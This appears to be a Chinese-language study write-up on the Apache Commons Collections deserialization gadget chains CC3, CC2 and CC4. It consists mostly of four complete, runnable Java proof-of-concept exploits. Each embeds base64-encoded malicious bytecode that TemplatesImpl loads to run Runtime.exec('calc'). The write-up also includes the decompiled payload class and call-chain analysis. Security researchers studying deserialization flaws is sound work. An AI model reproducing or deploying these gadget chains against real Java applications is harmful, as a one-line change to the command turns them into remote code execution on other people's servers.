


# CC3

## 测试环境

- jdk1.7
- Commons Collections 3.1

## POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;


public class CC41 {

    public static void main(String[] args) throws  Exception {


        //字节码
        byte[] code = Base64.decode("yv66vgAAADMALgoABgAgCgAhACIIACMKACEAJAcAJQcAJgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAPTFRlbXBsYXRlc0ltcGw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAB3J1bnRpbWUBABNMamF2YS9sYW5nL1J1bnRpbWU7BwAoAQAKU291cmNlRmlsZQEAElRlbXBsYXRlc0ltcGwuamF2YQwAGQAaBwApDAAqACsBAARjYWxjDAAsAC0BAA1UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAALAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAAOAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABQAAIAAgAAABAqtwABuAACTCsSA7YABFexAAAAAgAKAAAAEgAEAAAAEQAEABIACAATAA8AFAALAAAAFgACAAAAEAAMAA0AAAAIAAgAGwAcAAEAEgAAAAQAAQAdAAEAHgAAAAIAHw==");

        //反射设置 Field
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "HelloTemplatesImpl");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates});
        //TransformingComparator 实例
        TransformingComparator comparator = new TransformingComparator(instantiateTransformer);

        //PriorityQueue 实例
        PriorityQueue priorityQueue = new PriorityQueue(2);

        //先设置为正常变量值，后面可以通过setFieldValue修改
        priorityQueue.add(1);
        priorityQueue.add(1);

        //反射设置 Field
        Object[] objects = new Object[]{TrAXFilter.class, TrAXFilter.class};
        setFieldValue(priorityQueue, "comparator", comparator);
        setFieldValue(priorityQueue, "queue", objects);


        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(priorityQueue);
        oos.flush();
        oos.close();

        //测试反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();


    }

        //反射设置 Field
        public static void setFieldValue (Object object, String fieldName, Object value){
            try {
                Field field = object.getClass().getDeclaredField(fieldName);
                field.setAccessible(true);
                field.set(object, value);
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

    }
```

### JDK1.8可用

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.bcel.util.ClassLoader;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.jboss.util.Base64;
import org.jboss.util.Null;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;
public class CC31 {

    public static void main(String[] args) throws Exception{

        //字节码
       byte[] code = Base64.decode("yv66vgAAADMALgoABgAgCgAhACIIACMKACEAJAcAJQcAJgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAPTFRlbXBsYXRlc0ltcGw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAB3J1bnRpbWUBABNMamF2YS9sYW5nL1J1bnRpbWU7BwAoAQAKU291cmNlRmlsZQEAElRlbXBsYXRlc0ltcGwuamF2YQwAGQAaBwApDAAqACsBAARjYWxjDAAsAC0BAA1UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAALAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAAOAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABQAAIAAgAAABAqtwABuAACTCsSA7YABFexAAAAAgAKAAAAEgAEAAAAEQAEABIACAATAA8AFAALAAAAFgACAAAAEAAMAA0AAAAIAAgAGwAcAAEAEgAAAAQAAQAdAAEAHgAAAAIAHw==");


        //反射设置 Field
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes",new byte[][]{code});
        setFieldValue(templates, "_name", "Yasax1");
        setFieldValue(templates,"_tfactory", new TransformerFactoryImpl());
        //Transformer数组
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //LazyMap实例
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);

        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);
        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(poc);
        oos.flush();
        oos.close();

        //测试反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }


    //反射设置 Field
    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```


## 调用链

```
AnnotationInvocationHandler.invoke()
                        LazyMap.get()
                            ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InstantiateTransformer.transform()
                            newInstance()
                                TrAXFilter#TrAXFilter()
                                TemplatesImpl.newTransformer()
                                         TemplatesImpl.getTransletInstance()
                                         TemplatesImpl.defineTransletClasses
                                         newInstance()
                                            Runtime.exec()
```

这里的前半段和CC1是一样,因为这里用的实验环境是jdk1.7,如果这里前面调用LazyMap.get()的链子换成jdk1.8可用的,就能实现在1.8版本下运行。CC3就是为了绕过⼀些规则对InvokerTransformer的限制,去掉了 InvokerTransformer ,引入TemlatesImpl等新面孔,所以在我们的poc中,主要变化就是Transformer[]里的内容

## 流程图


## TemlatesImpl

TransletClassLoader类继承了ClassLoader


并且重写了它的defineClass,由其父类的protected类型变成了一个default类型的方法,可以被其他类调用


其他的地方看看流程图应该就能看懂了。

## 一些其他点

在创建TemplatesImpl对象时,我们使用了setFieldValue 方法用来设置私有属性。这里设置了_name和\_bytecodes。\_name这里不能为空,\_bytecodes为我们传入的字节码。


ysoserial中还设置了\_tfactory为TransformerFactoryImpl,因为TemplatesImpl#defineTransletClasses() 方法里有调用到`_tfactory.getExternalExtensionsMap()`,但是我并没有找到这个`_tfactory.getExternalExtensionsMap()`,而且我将\_tfactory设置为null也能运行。在我将jdk版本更换为了1.8后找到了`_tfactory.getExternalExtensionsMap()`,这里\_tfactory设置初始值应该是给后面版本准备的。

那么我们传入的字节码到底是什么呢,先看一下它的反编译代码

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class TemplatesImpl extends AbstractTranslet {


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public TemplatesImpl() throws IOException {
        super();
        Runtime runtime = Runtime.getRuntime();
        runtime.exec("calc");
    }
}
```

这里有个关键点,就是我们的恶意类需要继承于AbstractTranslet类。

但是我这里偏不信,我就不传继承于AbstractTranslet的类,想试试能不能正常执行。首先在defineTransletClasses中会对我们的恶意类进行判断


如果父类不是AbstractTranslet类的话则会进入else语句。而_auxClasses为Null,执行put方法则会报错。这里\_auxClasses不能通过反射控制,因为它是Hashtable类型,Hashtable里面有transient类型成员。


但是上面有一个if语句可以对\_auxClasses进行赋值,尝试修改一下poc,这里我修改了_bytecodes的长度,让其进入了if语句。


成功对\_auxClasses进行了赋值,然后我们之前那段代码又会对\_transletIndex进行判断,小于0则抛出异常。这里可以利用反射修改\_transletIndex的值,把它修改成了1。当我以为我成功的时候,还是报错了。

defineTransletClasses方法我们顺利通过了,但是回到getTransletInstance方法的时候,又出现了一段这样的代码

```java
AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
```


看来这里的逻辑就是需要我们传入的字节码中至少有一个类是继承与AbstractTranslet

# CC2

Apache Commons Collections有以下两个分⽀版本：

- commons-collections:commons-collections
- org.apache.commons:commons-collections4

前者是老版本,后面的是新版本。cc2和cc4是新版本的,但新版本中老版本的POC依旧可用,只是可能类名方法名有些变化。

## 测试环境

- jdk1.8
- Commons Collections 4

## POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;


import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC21{

    public static void main(String[] args) throws Exception {


            //字节码
            byte[] code = Base64.decode("yv66vgAAADMALgoABgAgCgAhACIIACMKACEAJAcAJQcAJgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAPTFRlbXBsYXRlc0ltcGw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAB3J1bnRpbWUBABNMamF2YS9sYW5nL1J1bnRpbWU7BwAoAQAKU291cmNlRmlsZQEAElRlbXBsYXRlc0ltcGwuamF2YQwAGQAaBwApDAAqACsBAARjYWxjDAAsAC0BAA1UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAALAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAAOAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABQAAIAAgAAABAqtwABuAACTCsSA7YABFexAAAAAgAKAAAAEgAEAAAAEQAEABIACAATAA8AFAALAAAAFgACAAAAEAAMAA0AAAAIAAgAGwAcAAEAEgAAAAQAAQAdAAEAHgAAAAIAHw==");
      
        //反射设置 Field
            TemplatesImpl templates = new TemplatesImpl();
            setFieldValue(templates, "_bytecodes", new byte[][]{code});
            setFieldValue(templates, "_name", "HelloTemplatesImpl");
            setFieldValue(templates,"_tfactory", new TransformerFactoryImpl());

            //为了执行 templates.newTransformer
            InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

            //TransformingComparator 实例
            TransformingComparator comparator = new TransformingComparator(invokerTransformer);

            //PriorityQueue 实例
            PriorityQueue priorityQueue = new PriorityQueue(2);

            //先设置为正常变量值，后面可以通过setFieldValue修改
            priorityQueue.add(1);
            priorityQueue.add(1);

            //反射设置 Field
            Object[] objects = new Object[]{templates, templates};
            setFieldValue(priorityQueue, "comparator", comparator);
            setFieldValue(priorityQueue, "queue", objects);


            //序列化
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(priorityQueue);
            oos.flush();
            oos.close();

            //测试反序列化
            ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
            ObjectInputStream ois = new ObjectInputStream(bais);
            ois.readObject();
            ois.close();


    }


    //反射设置 Field
    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

## 调用链

```
PriorityQueue.readObject()
      PriorityQueue.heapify()
          PriorityQueue.siftDown()
            PriorityQueue.siftDownUsingComparator()
                TransformingComparator.compare()
                    InvokerTransformer.transform()
                       TemplatesImpl.newTransformer()
                       …………
```

后面和CC3后面是一样的,主要是看前半段

## PriorityQueue

在`java.util.PriorityQueue`中的readObject方法中,调用了heapify()方法


这里的queue[i]的值是由readObject得到的，也就是说在writeObject处写入了对应的内容


所以在我们的poc中

```java
PriorityQueue priorityQueue = new PriorityQueue(2); //这里放入两个值,这样才能进入heapify()方法中的siftDown方法
priorityQueue.add(1);  //add传入的值则是我们的queue,先传入1,后面通过反射进行修改
priorityQueue.add(1);
```

heapify方法调用siftDown方法




然后调用`siftDownUsingComparator()`


然后调用了comparator.compare(),comparator可控



## TransformingComparator

然后我们看到另一个类`org.apache.commons.collections4.comparators.TransformingComparator`,其中有一个compare方法

this.transformer可控。

> 关于PriorityQueue的原理:https://www.cnblogs.com/linghu-java/p/9467805.html

这里如果我们TransformingComparator.transformer传入的A对象

这里就相当于执行A.transform(obj);这里利用InvokerTransformer来调用templates.newTransformer(),然后后面就跟CC3的链子一样。

## 一些其他点

如果我们直接priorityQueue.add(templates)会报错。那么这里为什么要先反射然后再修改queue的值呢。

这里因为我们在执行add方法的时候。会依次调用PriorityQueue#add()->PriorityQueue#offer()->PriorityQueue#siftUp(), 因为当时我们还没有给comparator赋值,所以会进入siftUpComparable方法


当执行到这一句的时候就会报错


如果我们在add前对comparator赋值那则可以正常运行


## 流程图


# CC4

## 测试环境

- jdk1.7
- Commons Collections 4

## POC

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;


public class CC4 {

    public static void main(String[] args) {

        try{
            //字节码
            byte[] code = Base64.decode("yv66vgAAADMALgoABgAgCgAhACIIACMKACEAJAcAJQcAJgEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAPTFRlbXBsYXRlc0ltcGw7AQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEACkV4Y2VwdGlvbnMHACcBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIaXRlcmF0b3IBADVMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yOwEAB2hhbmRsZXIBAEFMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAB3J1bnRpbWUBABNMamF2YS9sYW5nL1J1bnRpbWU7BwAoAQAKU291cmNlRmlsZQEAElRlbXBsYXRlc0ltcGwuamF2YQwAGQAaBwApDAAqACsBAARjYWxjDAAsAC0BAA1UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAALAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAAOAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABQAAIAAgAAABAqtwABuAACTCsSA7YABFexAAAAAgAKAAAAEgAEAAAAEQAEABIACAATAA8AFAALAAAAFgACAAAAEAAMAA0AAAAIAAgAGwAcAAEAEgAAAAQAAQAdAAEAHgAAAAIAHw==");

            //反射设置 Field
            TemplatesImpl templates = new TemplatesImpl();
            setFieldValue(templates, "_bytecodes", new byte[][]{code});
            setFieldValue(templates, "_name", "HelloTemplatesImpl");
            setFieldValue(templates,"_tfactory", new TransformerFactoryImpl());

            //Transformer数组
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(TrAXFilter.class),
                    new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
            };


            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

            //TransformingComparator 实例
            TransformingComparator comparator = new TransformingComparator(chainedTransformer);

            //PriorityQueue 实例
            PriorityQueue priorityQueue = new PriorityQueue(2);
            //先设置为正常变量值，后面可以通过setFieldValue修改
            priorityQueue.add(1);
            priorityQueue.add(1);

            //反射设置 Field
            Object[] objects = new Object[]{templates, templates};
            setFieldValue(priorityQueue, "queue", objects);
            setFieldValue(priorityQueue, "comparator", comparator);

            //序列化
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(priorityQueue);
            oos.flush();
            oos.close();

            //测试反序列化
            ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
            ObjectInputStream ois = new ObjectInputStream(bais);
            ois.readObject();
            ois.close();

        } catch (Exception e) {
            e.printStackTrace();
        }

    }

    //反射设置 Field
    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

## 调用链

```
ObjectInputStream.readObject()
    PriorityQueue.readObject()
        PriorityQueue.heapify()
            PriorityQueue.siftDown()
                PriorityQueue.siftDownUsingComparator()
                    TransformingComparator.compare()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InstantiateTransformer.transform()
                            newInstance()
                                TrAXFilter#TrAXFilter()
                                TemplatesImpl.newTransformer()
